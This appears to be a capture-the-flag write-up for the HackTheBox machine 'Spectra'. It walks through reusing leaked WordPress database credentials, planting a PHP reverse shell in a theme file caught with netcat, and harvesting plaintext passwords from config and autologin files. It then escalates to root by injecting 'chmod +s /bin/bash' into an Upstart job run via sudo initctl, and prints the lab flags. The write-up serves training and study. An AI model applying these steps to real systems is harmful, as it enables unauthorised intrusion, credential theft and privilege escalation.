



# Spectra - HackTheBox
?, 20 Base Points, Easy

## Machine


  
## Spectra Solution

### User

So let's start with ```nmap``` scanning:

```console
┌─[evyatar@parrot]─[/hackthebox/Spectra]
└──╼ $nmap -sC -sV -oA nmap/Spectra 10.10.10.229
Starting Nmap 7.80 ( https://nmap.org ) at 2021-03-20 20:05 IST
Nmap scan report for 10.10.10.229
Host is up (0.079s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.1 (protocol 2.0)
| ssh-hostkey: 
|_  4096 52:47:de:5c:37:4f:29:0e:8e:1d:88:6e:f9:23:4d:5a (RSA)
80/tcp   open  http    nginx 1.17.4
|_http-server-header: nginx/1.17.4
|_http-title: Site doesn't have a title (text/html).
3306/tcp open  mysql   MySQL (unauthorized)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.88 seconds

```

First, Let's browse port 80:


```Software Issue Tracker``` pointed to [http://spectra.htb/main/index.php](http://spectra.htb/main/index.php)
And ```Test``` pointed to [http://spectra.htb/testing/index.php](http://spectra.htb/testing/index.php).

So Let's add ```spectra.htb``` to ```/etc/hosts``` file as follow:
```bash
10.10.10.229    spectra.htb
```

After some enumerate on ```http://spectra.htb/testing/``` we can see the file ```wp-config.php.save``` with the following content:
```php
<?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the
 * installation. You don't have to use the web site, you can
 * copy this file to "wp-config.php" and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * MySQL settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://wordpress.org/support/article/editing-wp-config-php/
 *
 * @package WordPress
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'dev' );

/** MySQL database username */
define( 'DB_USER', 'devtest' );

/** MySQL database password */
define( 'DB_PASSWORD', 'devteam01' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8' );

/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

/**#@+
 * Authentication Unique Keys and Salts.
 *
 * Change these to different unique phrases!
 * You can generate these using the {@link https://api.wordpress.org/secret-key/1.1/salt/ WordPress.org secret-key service}
 * You can change these at any point in time to invalidate all existing cookies. This will force all users to have to log in again.
 *
 * @since 2.6.0
 */
define( 'AUTH_KEY',         'put your unique phrase here' );
define( 'SECURE_AUTH_KEY',  'put your unique phrase here' );
define( 'LOGGED_IN_KEY',    'put your unique phrase here' );
define( 'NONCE_KEY',        'put your unique phrase here' );
define( 'AUTH_SALT',        'put your unique phrase here' );
define( 'SECURE_AUTH_SALT', 'put your unique phrase here' );
define( 'LOGGED_IN_SALT',   'put your unique phrase here' );
define( 'NONCE_SALT',       'put your unique phrase here' );

/**#@-*/

/**
 * WordPress Database Table prefix.
 *
 * You can have multiple installations in one database if you give each
 * a unique prefix. Only numbers, letters, and underscores please!
 */
$table_prefix = 'wp_';

/**
 * For developers: WordPress debugging mode.
 *
 * Change this to true to enable the display of notices during development.
 * It is strongly recommended that plugin and theme developers use WP_DEBUG
 * in their development environments.
 *
 * For information on other constants that can be used for debugging,
 * visit the documentation.
 *
 * @link https://wordpress.org/support/article/debugging-in-wordpress/
 */
define( 'WP_DEBUG', false );

/* That's all, stop editing! Happy publishing. */

/** Absolute path to the WordPress directory. */
if ( ! defined( 'ABSPATH' ) ) {
	define( 'ABSPATH', __DIR__ . '/' );
}

/** Sets up WordPress vars and included files. */
require_once ABSPATH . 'wp-settings.php';

```

Let's save the db credentials maybe we use them later:
```php
define( 'DB_NAME', 'dev' );

/** MySQL database username */
define( 'DB_USER', 'devtest' );

/** MySQL database password */
define( 'DB_PASSWORD', 'devteam01' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );
```

We can enumerate username as follow:

```http://spectra.htb/main/?author=1```

```http://spectra.htb/main/?author=2``` etc..

We can see we have ```administrator``` user.

Because It's wordpress we can try login with the following link [http://spectra.htb/main/wp-login.php](http://spectra.htb/main/wp-login.php).

If we try username ```adminsitrator``` and password ```devteam01``` (from ```wp-config.php.save```) It's work.

Using the following article [https://pentaroot.com/exploit-wordpress-backdoor-theme-pages/](https://pentaroot.com/exploit-wordpress-backdoor-theme-pages/) we can get reverse shell by editing WordPress Theme using the following php reverse shell [http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz](http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz).

So Let's edit the ```archive.php```.

Click on Appearance -> Theme Editor -> Select Twenty Seventeen -> Archive.php and paste the php reverse shell:



Listen on port ```1234``` (in my case):
```console
┌─[evyatar@parrot]─[/hackthebox/Spectra]
└──╼ $nc -lvp 1234
listening on [any] 1234 ...

```

And browse to [http://spectra.htb/main/wp-content/themes/twentyseventeen/archive.php](http://spectra.htb/main/wp-content/themes/twentyseventeen/archive.php)

And we got shell:
```console
┌─[evyatar@parrot]─[/hackthebox/Spectra]
└──╼ $nc -lvp 1234
listening on [any] 1234 ...
connect to [10.10.14.14] from spectra.htb [10.10.10.229] 45880
Linux spectra 5.4.66+ #1 SMP Tue Dec 22 13:39:49 UTC 2020 x86_64 AMD EPYC 7401P 24-Core Processor AuthenticAMD GNU/Linux
 16:27:46 up  5:23,  0 users,  load average: 0.47, 0.16, 0.12
USER     TTY        LOGIN@   IDLE   JCPU   PCPU WHAT
uid=20155(nginx) gid=20156(nginx) groups=20156(nginx)
$ 
```

From ```/usr/local/share/nginx/html/main/wp-config.php``` we can get another credentials (Let's save them also):
```php
/** The name of the database for WordPress */
define( 'DB_NAME', 'dev' );

/** MySQL database username */
define( 'DB_USER', 'dev' );

/** MySQL database password */
define( 'DB_PASSWORD', 'development01' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

```

After running [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) we can see that on ```/etc``` directory we can find file that contains password of ```katie``` user:
```console
$ pwd
/etc/autologin
$ cat passwd
SummerHereWeCome!!
```

Le't login to ```katie``` user with ```SummerHereWeCome!!``` password:
```console
┌─[evyatar@parrot]─[/hackthebox/Spectra]
└──╼ $ ssh katie@10.10.10.229
Password: 
katie@spectra ~ $ cat user.txt
e89d27fe195e9114ffa72ba8913a6130
katie@spectra ~ $ 
```


### Root

Let's try run ```sudo -l```:
```
katie@spectra ~ $ sudo -l
User katie may run the following commands on spectra:
    (ALL) SETENV: NOPASSWD: /sbin/initctl
katie@spectra ~ $ 
```

initctl admit with System Administrators to link & communicate with Upstart. Able to manage user jobs. As example If D-Bus has been configured to allow non privileged users to invoke all Upstart D-Bus methods initctl is able to manage user-jobs.

Usually ```initctl``` works with service configuration file located at /etc/init directory on linux servers. 
We can inject malicious code into that services.

Let's check current status of the services using list command via initctl.
```console
katie@spectra ~ $ sudo -u root /sbin/initctl list
crash-reporter-early-init stop/waiting
cups-clear-state stop/waiting
dbus_session stop/waiting
failsafe-delay stop/waiting
fwupdtool-activate stop/waiting
send-reclamation-metrics stop/waiting
smbproviderd stop/waiting
tpm_managerd start/running, process 814
udev start/running, process 237
test stop/waiting
test1 stop/waiting
autologin stop/waiting
boot-services start/running
cryptohome-proxy stop/waiting
cryptohomed-client stop/waiting
fixwireless stop/waiting
fwupdtool-getdevices stop/waiting
googletts stop/waiting
ippusb stop/waiting
memd start/running, process 3036
ml-service stop/waiting
neverware_write_running_from_file stop/waiting
avahi start/running, process 2045
boot-update-firmware start/running
cras start/running, process 2006
crosdns stop/waiting
cupsd stop/waiting
failsafe start/running
modemmanager start/running, process 2046
permission_broker start/running, process 1977
send-mount-encrypted-metrics stop/waiting
usbguard stop/waiting
test7 stop/waiting
anomaly-detector start/running, process 2713
cups-pre-upstart-socket-bridge stop/waiting
dbus start/running, process 610
image-burner stop/waiting
ippusb-post-upstart-socket-bridge stop/waiting
log-bootid-on-boot stop/waiting
network-services start/running
oobe_config_restore stop/waiting
pca_agentd start/running, process 1163
send-powerwash-count stop/waiting
test6 stop/waiting
autoinstall stop/waiting
crx-import stop/waiting
eeti-gtouch stop/waiting
file_attrs_cleaner_tool stop/waiting
flatpak_daemon stop/waiting
halt stop/waiting
imageloader stop/waiting
login stop/waiting
pre-shutdown stop/waiting
rc-local start/running, process 712
reboot stop/waiting
regulatory-domain stop/waiting
send-recovery-metrics stop/waiting
trunksd stop/waiting
ui-collect-machine-info stop/waiting
virtualbox stop/waiting
test5 stop/waiting
install-logs stop/waiting
metrics_daemon start/running, process 3020
metrics_library start/running
shill-start-user-session stop/waiting
sommelier stop/waiting
wpasupplicant start/running, process 771
test4 stop/waiting
test10 stop/waiting
activate_date start/running, process 2756
attestationd start/running, process 1734
cleanup-shutdown-logs stop/waiting
dlm-resume stop/waiting
flatpak_update stop/waiting
p2p stop/waiting
rt-limits stop/waiting
seneschal stop/waiting
ui-init-late stop/waiting
boot-complete start/running
bootlockboxd stop/waiting
crash-boot-collect stop/waiting
crash-sender start/running, process 1915
cros_healthd start/running, process 3653
neverware_fixsnd stop/waiting
pepper-flash-player stop/waiting
send-boot-mode stop/waiting
tpm-probe stop/waiting
lockbox-cache start/running
pre-startup stop/waiting
startup stop/waiting
ui-respawn stop/waiting
uinput stop/waiting
usbguard-wrapper stop/waiting
cgroups stop/waiting
chapsd start/running, process 795
conntrackd stop/waiting
cros_configfs start/running
iptables stop/waiting
machine-info stop/waiting
neverware_dmi_logger stop/waiting
patchpanel start/running, process 1918
pstore stop/waiting
trace_marker-test stop/waiting
test9 stop/waiting
bluetoothlog stop/waiting
boot-alert-ready stop/waiting
boot-splash stop/waiting
brltty stop/waiting
cryptohomed start/running, process 1067
lorgnette stop/waiting
neverware_fixnet stop/waiting
powerd stop/waiting
preload-network stop/waiting
pulseaudio stop/waiting
sysrq-init stop/waiting
system-proxy stop/waiting
upstart-socket-bridge start/running, process 2081
test8 stop/waiting
crash-reporter stop/waiting
debugd stop/waiting
ip6tables stop/waiting
ippusb-pre-upstart-socket-bridge stop/waiting
openssh-server stop/waiting
send-kernel-errors stop/waiting
shill-stop-user-session stop/waiting
tcsd start/running
tlsdated start/running, process 2754
tracefs-init stop/waiting
authpolicyd stop/waiting
check_for_plugin_updates stop/waiting
chunneld stop/waiting
cryptohome-update-userdataauth start/running, process 1976
kerberosd stop/waiting
logout stop/waiting
mount-encrypted stop/waiting
shill start/running, process 1156
swap stop/waiting
trim stop/waiting
udev-trigger stop/waiting
cpufreq stop/waiting
cros-machine-id-regen-periodic start/running, process 2580
cups-post-upstart-socket-bridge stop/waiting
neverware-client-id stop/waiting
report-power-metrics stop/waiting
send-disk-metrics stop/waiting
system-services start/running
update-engine start/running, process 2041
vm_concierge stop/waiting
btdispatch start/running, process 2736
cros-machine-id-regen-network stop/waiting
dlm stop/waiting
ext-pci-drivers-allowlist stop/waiting
firmware-version stop/waiting
flatpak stop/waiting
fwupdtool-update stop/waiting
imageloader-shutdown stop/waiting
mtpd stop/waiting
send-boot-metrics stop/waiting
send-hardware-info stop/waiting
vm_cicerone stop/waiting
vmlog_forwarder stop/waiting
bluetoothd start/running, process 2699
cros-disks stop/waiting
shill-event stop/waiting
shill_respawn stop/waiting
syslog start/running, process 658
udev-trigger-early stop/waiting
test3 stop/waiting
dlm-suspend stop/waiting
init-homedirs stop/waiting
install-completed start/running
journald start/running, process 566
log-rotate start/running, process 2051
neverware_daemon start/running, process 1936
neverware_fixhw stop/waiting
oobe_config_save stop/waiting
report-boot-complete stop/waiting
send-uptime-metrics stop/waiting
ui stop/waiting
ureadahead stop/waiting
usb_bouncer stop/waiting
test2 stop/waiting
```

We can see script format, Let’s try to inject a code which set SUID permission ```/bin/bash``` from that attack can takeover bash shell as root by modifying service ```test``` (which is customized service, does not come up as default job)

```console
katie@spectra ~ $ cat /etc/init/test5.config

description "Test node.js server"
author      "katie"

start on filesystem or runlevel [2345]
stop on shutdown

script

    chmod +s /bin/bash

end script

```

Now let’s restart ```test``` service and run ```/bin/bash -p``` to get shell with SUID
```console
katie@spectra ~ $ sudo /sbin/initctl start test
test start/running, process 76277
katie@spectra ~ $ /bin/bash -p
bash-4.3# cat /root/root.txt
d44519713b889d5e1f9e536d0c6df2fc
```
